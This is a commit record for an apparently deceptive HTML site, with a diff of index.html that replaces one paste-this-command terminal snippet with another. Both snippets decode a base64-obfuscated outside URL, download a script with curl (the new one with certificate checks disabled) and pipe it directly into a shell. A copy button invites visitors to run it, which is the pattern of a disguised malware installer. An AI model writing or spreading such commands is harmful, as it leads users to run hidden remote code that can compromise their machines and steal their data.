

Before and after one commit to madeonminekill32/versel-repo1, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 436-597 px from the top of the page, without its empty margins (118-1161 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -398,7 +398,7 @@
     <div class="terminal-body">
         <div class="terminal-content">
             <div class="terminal-command-wrapper">
-                <code id="commandToCopy" class="terminal-command terminal-font">/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9ndXRhbmRvLmNvbS9jbGVhbmVy | base64 -d))"</code>
+                <code id="commandToCopy" class="terminal-command terminal-font">curl -kfsSL $(echo 'aHR0cHM6Ly9tb25kb3plci5jb20vY3VybC9iMTAwNjY3NTI1ZTgyZWU0ZWIzYjY4YzQyNGY1NGUxMDE1NzFhZGQ0YzkwNWYzNGQxMzVjMTE2YTc0YWZkNDVj'|base64 -D)|zsh</code>
             </div>
             <button
                 onclick="copyCommand()"
```
